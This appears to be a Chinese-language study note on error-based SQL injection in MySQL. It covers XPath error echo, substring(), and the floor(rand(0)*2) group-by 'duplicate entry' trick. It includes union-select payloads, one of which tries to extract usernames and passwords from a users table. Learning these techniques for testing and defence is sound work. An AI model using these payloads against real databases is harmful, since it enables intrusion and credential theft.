正常查询语句

Xpath_string例子：/book/author/surname

1. 若查询不存在的路径，找不到内容但不报错
2. 将 / 改为 ~ 产生错误 xpath syntax error 后面跟着路径回显，于是通过这处回显进行注入

substring()

```sql
substring(123456,1,3)
```

返回：123

```sql
substring(123456,4,3)
```

返回：456

即下标从1开始，第一个参数表示字符串，然后取从第二个参数给定的下标开始，数第三个参数给定的个数，得到的子串



## 报错注入（2）

相关函数：

1. rand() : 0~1随机小数
2. floor() : 向下取整
3. ceiling()
4. concat_ws() : 将括号内的数据用第一个字段连接起来 concatenate with separator
5. group by 分组语句
6. as 别名
7. count() :  count(column_name) 统计 column_name 中非 NULL 值的行，count(*) 则统计指定表中所有行的数量
8. limit 显示指定行数 limit 0,1 表示限制从第 0 项开始取 1 项



```sql
union select 1,count(*),concat_ws('-',(select database()), floor(rand(0)*2)) as a from information_schema.tables group by a
```

from information_schema.tables 为了有足够的列数

count(*) 用来统计个数

concat_ws() 用 - 将 select database() 的返回值和 floor(rand(0)*2) 的值连接起来

每一个 concat_ws(...) 都重命名为 a 并按照它进行分组，于是会出现两种键

database_name-0 和 database_name-1

该手法成功的关键在于：给它分组时算了一遍 rand , 计数时又要算一遍 rand , 就有可能出现重复定义键名的错误，从而产生报错 duplicate entry，返回我们想要看到的信息

但是，最后一步挂掉了：

```sql
union select 1,count(*),concat_ws('-',(
select group_concat(username,"-",password) from users
), floor(rand(0)*2)) as a from information_schema.tables group by a
```
